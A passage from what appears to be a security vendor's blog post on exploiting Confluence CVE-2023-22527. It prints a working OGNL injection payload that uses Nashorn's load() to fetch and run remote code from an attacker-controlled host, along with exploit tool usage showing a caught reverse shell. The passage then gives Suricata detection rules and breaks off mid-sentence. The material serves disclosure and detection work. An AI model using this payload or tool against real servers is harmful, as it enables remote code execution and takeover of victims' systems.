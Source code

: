\[bundles\](https://confluence.atlassian.com/doc/bundled-tomcat-and-java-versions-1005786018.html) Java 17 since 8.2.3. Nashorn was removed in Java 15, so exploitation using the JavaScript engine is becoming irrelevant for Confluence. However, there will forever be Java 8 installs, so exploitation with Nashorn in general will never be dead—so this tidbit might be of use to someone eventually.\\n\\nAlthough this blog touches on using \`applyExpressionMaxLength\` to bypass the OGNL limit, we weren’t aware of this technique originally. The go-exploit \[Nashorn payload\](https://github.com/vulncheck-oss/cve-2023-22527/tree/main/nashorn) is quite large, so we needed a workaround. Fortunately, Nashorn supports the \[load\](https://wiki.openjdk.org/display/Nashorn/Nashorn+extensions) keyword. \`load\` can be used to fetch a remote file that can then be executed via \`eval\`. The CVE-2023-25527 exploit looks like this:\\n\\n>\`label==\\u0027%2b#request\\u005b\\u0027.K%45Y\_velocity.struts2.context\\u0027\\n>\\u005d.internalGet(\\u0027ognl\\u0027).findValue(#parameters.x,%7B%7D)%2b\\u0027&x=(\\n>new javax.script.ScriptEngineManager().getEngineByName('js').eval('load("http://10.9.49.81:8080/UOymEWIpfhgs")'))\`\\n\\nYou can find the proof of concept on \[GitHub\](https://github.com/vulncheck-oss/cve-2023-22527/tree/main/nashorn). The exploit spins up its own HTTP server to serve the Nashorn payload. Example usage:\\n\\n\`\`\`sh\\nalbinolobster@mournland:~/cve-2023-22527/nashorn$ sudo docker run -it --network=host nashorn -v -a -c -e -rhost 10.9.49.8\\n8 -lhost 10.9.49.81 -lport 1270 -httpAddr 10.9.49.81 -ell SUCCESS -fll SUCCESS\\ntime=2024-03-04T16:10:38.002Z level=SUCCESS msg="Target verification succeeded!" host=10.9.49.88 port=8090 verified=true\\ntime=2024-03-04T16:10:38.146Z level=SUCCESS msg="The target appears to be a vulnerable version!" host=10.9.49.88 port=8090 vulnerable=yes\\ntime=2024-03-04T16:10:40.503Z level=SUCCESS msg="Caught new shell from 10.9.49.88:41826"\\nid\\nuid=2002(confluence) gid=2002(confluence) groups=2002(confluence),0(root)\\n\`\`\`\\n\\n## Detection on the Wire\\n\\nPerhaps the best place to catch exploitation of CVE-2023-22527 is on the wire. VulnCheck’s Initial Access team likes to obfuscate payloads to make life more challenging for detection engineers. For example, the reverse shell payload is entirely URL encoded here:\\n\\n!\[Lightly obfuscated exploit bypasses detections\](/blog/confluence-dreams-of-shells/cve-2023-22527-wireshark.png){:width="100%"}\\n\\nThis isn’t that strong of an obfuscation, though. The two elements of exploitation are still there. There is an unobfuscated \`label\` parameter (not pictured but also not encoded because it’s a parameter) and \`u0027\` in some representations (URL encoded here). As such, the following rules should catch all CVE-2023-22527 exploitation attempts:\\n\\n\`\`\`\\nalert http any any -> any any ( \\\\n msg:"VULNCHECK Confluence CVE-2023-22527 Exploit Attempt (POST Body)"; \\\\n flow:established,to\_server; \\\\n http.method; content:"POST"; \\\\n http.uri; content:"/template/aui/text-inline.vm"; startswith; \\\\n http.request\_body; content:"label="; \\\\n pcre:"/label=\[^&\]\*(\\\\|%5c)(u|%75)|(0|%30)(0|%30)(2|%32)(7|%37)/i"; \\\\n reference:cve,CVE-2023-22527; \\\\n classtype:web-application-attack; \\\\n sid:12700246; rev:2;)\\n\\nalert http any any -> any any ( \\\\n msg:"VULNCHECK Confluence CVE-2023-22527 Exploit Attempt (POST URI)"; \\\\n flow:established,to\_server; \\\\n http.method; content:"POST"; \\\\n http.uri; content:"/template/aui/text-inline.vm"; startswith; \\\\n content:"label="; distance: 0; \\\\n pcre:"/label=\[^&\]\*(\\\\|%5c)(u|%75)|(0|%30)(0|%30)(2|%32)(7|%37)/i"; \\\\n reference:cve,CVE-2023-22527; \\\\n classtype:web-application-attack; \\\\n sid:12700258; rev:1;)\\n\\nalert http any any -> any any ( \\\\n msg:"VULNCHECK Confluence CVE-2023-22527 Exploit Attempt (GET)"; \\\\n flow:established,to\_server; \\\\n http.method; content:"GET"; \\\\n http.uri; content:"/template/aui/text-inline.vm"; startswith; \\\\n content:"label="; distance: 0; \\\\n pcre:"/label=\[^&\]\*(\\\\|%5c)(u|%75)|(0|%30)(0|%30)(2|%32)(7|%37)/i"; \\\\n reference:cve,CVE-2023-22527; \\\\n classtype:web-application-attack; \\\\n sid:12700259; rev:1;)\\n\`\`\`\\n\\nPerhaps surprising is that we have three rules for this vulnerability. It turns out, though, that the exploit can be thrown using HTTP